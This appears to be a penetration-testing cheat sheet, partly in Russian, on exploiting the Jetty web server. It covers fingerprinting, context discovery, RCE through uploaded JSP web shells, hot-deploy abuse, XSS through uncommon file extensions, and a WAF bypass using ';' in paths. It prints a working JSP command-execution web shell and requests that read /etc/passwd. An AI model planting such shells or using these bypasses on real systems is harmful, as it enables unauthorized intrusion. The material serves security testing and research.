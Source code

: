 # Jetty

## Detect

Jetty не реагирует на `;"`:

```
/;" or /existingUrl;"/

Nginx:  GET /;" -> 404 Not Found
Apache: GET /;" -> 404 Not Found
Jetty:  GET /;" -> 200 OK
```

## Jetty Overview

Variables:

$JETTY\_HOME — jetty distribution directory

$JETTY\_BASE — which contains configuration files, web applications, etc. `$JETTY_BASE` is ./ in relation to a process run by Jetty server

All web applications are stored `$JETTY_BASE/webapps/`

When applications are deployed, they are each assigned their own context. Every context has the contextPath property that defines the URL path served by the associated application. If an application has the contextPath “/test” , it will process all HTTP requests to /test/\*. Using contextPath and virtualHost, we can map different paths and virtual hosts to different applications.

Jetty can have a root web application (catch-all context) located in `$JETTY_BASE/webapps/root/` that processes all requests to /. In addition to /, this application will process all requests for a resource that is not associated with any registered contexts.

### Discovering contexts

У Jetty есть одна интересная особенность. Если нет приложения, отвечающего за root-контекст, то при обращении на несуществующий виртуальный хост будут выданы пути до всех контекстов.

```
GET / HTTP/1.1
Host: randomHost-sjdnvjks
```

### RCE via File Upload

#### JSP Servlets

By default, JSP files are processed in Jetty by org.eclipse.jetty.jsp.JettyJspServlet. This is configured in `$JETTY_HOME/etc/webdefault.xml`. Another default setting makes Jetty compile and execute all files matching the following masks:

* \*.jsp
* \*.jspf
* \*.jspx
* \*.xsp
* \*.JSP
* \*.JSPF
* \*.JSPX
* \*.XSP

To achieve RCE, we need to upload a file with one of these extensions to the server. &#x20;

Note: to enable JSP file processing in Jetty, the jsp module must be enabled.

**Case 1**

As I mentioned earlier, Jetty may have a root application that processes requests to the server root. Therefore, the easiest way to achieve RCE is to upload a JSP web shell to `$JETTY_BASE/webapps/root/` and then access it via HTTP.

```
GET /exec.jsp?cmd=cat+/etc/passwd HTTP/1.1
Host: jetty
```

```java
// $JETTY_BASE/webapps/root/exec.jsp
<%@ page import="java.util.*,java.io.*"%>
<%
if (request.getParameter("cmd") != null) {
   Process.p;
   p = Runtime.getRuntime().exec(request.getParameter("cmd"));
   InputStream in = p.getInputStream();
   DataInputStream dis = new DataInputStream(in);
   String disr = dis.readLine();
   while ( disr != null ) {
      out.println(disr);
      disr = dis.readLine();
   }
}
%>
```

**Case 2**

A JSP shell can also be uploaded to `$JETTY_BASE/work/` which is normally used as a parent directory for all temporary folders of web applications. When the web server starts, directories for each application will be created in it. The name of the directory will be in the format:

`"jetty-"+host+"-"+port+"-"+resourceBase+"-_"+context+"-"+virtualhost+"-"`

If we somehow manage to find out what temporary directory has been created, we can try to upload a JSP shell via: `$JETTY_BASE/work/"jetty-"+host+"-"+port+"-"+resourceBase+"-_"+context+"-"+virtualhost+"-"/webapps`

``![](<../../../.gitbook/assets/изображение (4).png>)``

Next we open the URL with the required context in our browser and we have RCE.

```
GET /testApp/exec.jsp?cmd=cat+/etc/passwd HTTP/1.1
Host: 192.168.99.129
```

File in:

```
work/jetty-0_0_0_0-8080-test_war-_testApp-any-/webapp/exec.jsp
```

### Web application upload

If uploading JSP files is impossible or the JSP handler is not enabled, we can use the automatic deploy (hot deploy) feature that is enabled in Jetty by default. When hot deploy is enabled, `$JETTY_BASE/webapps/` is constantly scanned for new web applications that are automatically deployed without us having to restart the Jetty server.

[Tomcat has the same feature but it is disabled by default](https://tomcat.apache.org/tomcat-8.0-doc/deployer-howto.html#Deploying\_on\_a\_running\_Tomcat\_server)

А web application in Jetty can be any of the following:

* A regular directory
* A WAR file
* An XML file (Jetty context XML file)

This means we have two file types that can give us RCE if we upload them to the server.

### XSS via file upload

We can achieve XSS on a Jetty server with standard configuration by uploading not only well-known .html or .svg files, but also other files with less popular extensions. To test this, I used two types of payload:

```markup
<!-- XML-based: -->
<a:script xmlns:a="http://www.w3.org/1999/xhtml">alert('XSS')</script>

<!-- HTML-based: -->
<script>alert('XSS')</script>
```

The results are in the table below. ([List](https://github.com/eclipse/jetty.project/blob/jetty-10.0.x/jetty-http/src/main/resources/org/eclipse/jetty/http/mime.properties) of extensions)

| Extension         | Payload | Browser                                                                                                                                                                                |
| ----------------- | ------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| .htm              | HTML    | ![](https://swarm.ptsecurity.com/wp-content/uploads/2022/09/8f48559e-icons8-chrome-24.png) ![](https://swarm.ptsecurity.com/wp-content/uploads/2022/09/e8018665-icons8-firefox-24.png) |
| .mathml           | XML     | ![](https://swarm.ptsecurity.com/wp-content/uploads/2022/09/e8018665-icons8-firefox-24.png)                                                                                            |
| .rdf              | XML     | ![](https://swarm.ptsecurity.com/wp-content/uploads/2022/09/e8018665-icons8-firefox-24.png)                                                                                            |
| .svgz             | XML     | ![](https://swarm.ptsecurity.com/wp-content/uploads/2022/09/8f48559e-icons8-chrome-24.png) ![](https://swarm.ptsecurity.com/wp-content/uploads/2022/09/e8018665-icons8-firefox-24.png) |
| .xht              | XML     | ![](https://swarm.ptsecurity.com/wp-content/uploads/2022/09/8f48559e-icons8-chrome-24.png) ![](https://swarm.ptsecurity.com/wp-content/uploads/2022/09/e8018665-icons8-firefox-24.png) |
| .xhtml            | XML     | ![](https://swarm.ptsecurity.com/wp-content/uploads/2022/09/8f48559e-icons8-chrome-24.png) ![](https://swarm.ptsecurity.com/wp-content/uploads/2022/09/e8018665-icons8-firefox-24.png) |
| .xml              | XML     | ![](https://swarm.ptsecurity.com/wp-content/uploads/2022/09/8f48559e-icons8-chrome-24.png) ![](https://swarm.ptsecurity.com/wp-content/uploads/2022/09/e8018665-icons8-firefox-24.png) |
| .xsd              | XML     | ![](https://swarm.ptsecurity.com/wp-content/uploads/2022/09/8f48559e-icons8-chrome-24.png) ![](https://swarm.ptsecurity.com/wp-content/uploads/2022/09/e8018665-icons8-firefox-24.png) |
| .xsl              | XML     | ![](https://swarm.ptsecurity.com/wp-content/uploads/2022/09/8f48559e-icons8-chrome-24.png) ![](https://swarm.ptsecurity.com/wp-content/uploads/2022/09/e8018665-icons8-firefox-24.png) |
| .\[randomSymbols] | HTML    | ![](https://swarm.ptsecurity.com/wp-content/uploads/2022/09/8f48559e-icons8-chrome-24.png) ![](https://swarm.ptsecurity.com/wp-content/uploads/2022/09/e8018665-icons8-firefox-24.png) |

## Bypass WAF or filters

With a thorough understanding of Jetty’s inner workings, we can find ways to exploit vulnerabilities in applications running on it even if those vulnerabilities are compensated by a WAF.

### Case 1

Knowing how the Jetty server parses URL addresses, we can bypass filters on a proxy server. Imagine that a Jetty server is deployed behind an NGINX proxy with a rule that blocks requests to /adminURL/\*.

```nginx
location ~ /adminURL/ {
   deny all;
}
location / {
   proxy_pass http://localhost:8080;
   proxy_set_header Host $host;
   proxy_set_header X-Real-IP $remote_addr;
}
```

If this rule is configured only on the proxy, we can send an HTTP request to `/adminURL;random/` and obtain access to the protected resource on the server:

```
/adminURL/ -> 403
/adminURL;aaa/ -> 200
```

Больше примеров в статье

## Papers & Notes

PT Swarm Research: [https://swarm.ptsecurity.com/jetty-features-for-hacking-web-apps/](https://swarm.ptsecurity.com/jetty-features-for-hacking-web-apps/)

